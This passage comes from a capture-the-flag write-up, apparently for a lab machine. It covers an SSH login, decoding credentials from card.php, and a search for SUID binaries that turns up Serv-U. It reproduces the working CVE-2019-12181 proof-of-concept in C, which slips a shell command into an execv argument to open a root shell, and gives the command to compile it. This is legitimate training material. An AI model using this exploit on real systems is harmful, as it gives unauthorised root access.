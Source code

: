 Using these credentials on SSH gave us access to the machine

![](https://i.imgur.com/ezEroWj.png)

On further enumeration of the machine, there's a card.php in /var/www/html which has text in binary form which we can convert it to ASCII

![](https://i.imgur.com/P86rhuf.png)

![](https://i.imgur.com/LK9bzQd.png)

![](https://i.imgur.com/DuDrhmg.png)

![](https://i.imgur.com/wfSkJpS.png)

But these credentials only work on the election admin panel which isn't useful now as we already have access on the machine

##### Gaining Root Access

Looking for SUID binaries we do find one unusual binary named Serv-U by using this command

```bash
find / -perm /4000 2>/dev/null
```

![](https://i.imgur.com/iwLtDUU.png)

Serv-U is an FTP server, Luckliy this was exploitable as there was a CVE for this CVE-2019-12181

![](https://i.imgur.com/DyfjEFG.png)

Using the poc from exploit-db we can compile this c code on the target machine

```c
#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main()
{       
    char *vuln_args[] = {"\" ; id; echo 'opening root shell' ; /bin/sh; \"", "-prepareinstallation", NULL};
    int ret_val = execv("/usr/local/Serv-U/Serv-U", vuln_args);
    // if execv is successful, we won't reach here
    printf("ret val: %d errno: %d\n", ret_val, errno);
    return errno;
}
```

Compile it with gcc

```bash
gcc -o test ./test.c
```
